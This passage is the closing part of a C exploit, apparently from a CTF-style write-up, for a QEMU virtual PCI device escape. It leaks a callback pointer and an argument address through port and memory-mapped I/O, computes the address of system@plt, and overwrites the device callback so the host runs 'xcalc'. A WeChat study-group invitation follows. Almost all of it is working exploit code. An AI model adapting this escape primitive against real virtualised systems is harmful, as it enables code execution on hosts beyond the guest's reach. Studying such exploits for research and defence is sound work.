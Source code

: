```
        puts("[+] outb");
        pmio_writeb(0x240, 0x38);
        pmio_writeb(0x230, 1);
        uint64_t cb_addr = cmb_read(0x100);
        printf("[+] cb_addr: %#llx\n", cb_addr);
        pmio_writeb(0x240, 0x3c);
        pmio_writeb(0x230, 1);
        cb_addr = cb_addr | ((1ULL * cmb_read(0x100)) << 32);
        uint64_t system_plt = cb_addr - 0x00000000004DCF10 + 0x00000000002AB860;
        printf("[+] cb_addr: %#llx\n", cb_addr);
        printf("[+] system@plt: %#llx\n", system_plt);
 
        pmio_writeb(0x240, 0x40);
        pmio_writeb(0x230, 1);
        uint64_t arg_addr = cmb_read(0x100);
        printf("[+] arg_addr: %#llx\n", arg_addr);
        pmio_writeb(0x240, 0x44);
        pmio_writeb(0x230, 1);
        arg_addr = arg_addr | ((1ULL * cmb_read(0x100)) << 32);
        uint64_t cmd_addr = arg_addr + 0xb90;
        printf("[+] arg_addr: %#llx\n", arg_addr);
        printf("[+] cmd_addr: %#llx\n", cmd_addr);
 
        pmio_writeb(0x240, 0x38);
        pmio_writeb(0x230, 1);
        cmb_write(0x100, system_plt&0xffffffff);
        pmio_writeb(0x240, 0x3c);
        pmio_writeb(0x230, 1);
        cmb_write(0x100, (system_plt>>32)&0xffffffff);
 
        pmio_writeb(0x240, 0x40);
        pmio_writeb(0x230, 1);
        cmb_write(0x100, cmd_addr&0xffffffff);
        pmio_writeb(0x240, 0x44);
        pmio_writeb(0x230, 1);
        cmb_write(0x100, (cmd_addr>>32)&0xffffffff);
 
        char cmd[8] = "xcalc";
        pmio_writeb(0x240, 0);
        pmio_writeb(0x230, 1);
        cmb_write(0, *(uint32_t*)&cmd[0]);
        pmio_writeb(0x240, 4);
        pmio_writeb(0x230, 1);
        cmb_write(0, *(uint32_t*)&cmd[4]);
 
        mmio_write(0x98, 1);
 
//      puts("[-] DEBUG");
//      pmio_writeb(0x240, 0x38);
 
 
        return 0;
}
x

```  
  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
